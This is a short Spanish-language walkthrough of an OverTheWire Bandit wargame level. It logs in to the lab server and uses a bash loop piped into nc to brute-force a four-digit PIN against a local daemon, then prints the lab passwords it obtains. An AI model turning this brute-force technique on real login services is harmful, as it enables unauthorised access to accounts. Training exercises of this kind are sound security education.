 # Level 24 -> level 25

## Objetivo

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Datos de acceso

Host: **bandit.labs.overthewire.org** on port 2220

Username: **bandit24**

Password: **VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar**

## Solución

```bash
hone@Unidad03:~$ ssh bandit24@bandit.labs.overthewire.org -p 2220
```

```bash
bandit22@bandit.labs.overthewire.org's password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

```bash
nano bruto.sh
```

En el editor se crea el siguiente programa:

```bash
#!/bin/bash

for i in {0000..9999}; 
    do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!
```

```bash
bandit24@bandit:/tmp$ bash bruto.sh
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

## Notas adicionales

## Referencias

